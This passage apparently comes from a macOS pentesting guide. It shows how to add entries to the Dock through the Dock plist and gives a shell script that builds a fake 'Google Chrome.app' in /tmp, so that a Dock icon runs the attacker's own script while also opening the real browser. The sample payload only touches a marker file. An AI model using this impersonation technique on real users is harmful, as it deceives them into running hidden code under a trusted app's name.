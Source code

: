 All the applications that appear in the Dock are specified inside the plist: **`~/Library/Preferences/com.apple.dock.plist`**

It's possible to **add an application** just with:

{% code overflow="wrap" %}
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
{% endcode %}

Using some **social engineering** you could **impersonate for example Google Chrome** inside the dock and actually execute your own script:

```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Google Chrome</string>
    <key>CFBundleIdentifier</key>
    <string>com.google.Chrome</string>
    <key>CFBundleName</key>
    <string>Google Chrome</string>
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
```